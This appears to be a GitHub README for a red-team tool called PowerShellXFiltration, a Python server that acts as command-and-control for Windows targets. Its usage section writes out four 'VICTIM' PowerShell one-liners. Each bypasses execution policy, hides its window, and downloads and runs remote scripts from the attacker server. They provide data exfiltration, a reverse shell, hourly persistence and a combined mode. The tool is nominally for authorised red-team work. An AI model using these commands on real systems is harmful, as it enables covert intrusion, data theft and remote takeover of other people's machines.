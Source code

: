 ## PowerShellXFiltration
A Python web server to execute several actions on a Windows system, acting like a C2.
Useful for redteam.

### Example
1. Change the settings in `config.py`.
2. Run:
```
ATTACKER> python3 server.py

#For data exfiltration
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://<SERVER-IP>:<SERVER-PORT>/client_exf');"

#For reverse-shell
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://<SERVER-IP>:<SERVER-PORT>/client_rvs');"

#For running a persistent command (by default runs every hour for 6 days, but can be changed in `client_pers.ps1`)
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://<SERVER-IP>:<SERVER-PORT>/client_pers');"

#For running data exfiltration + reverse-shell
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://<SERVER-IP>:<SERVER-PORT>/run_all');"
```
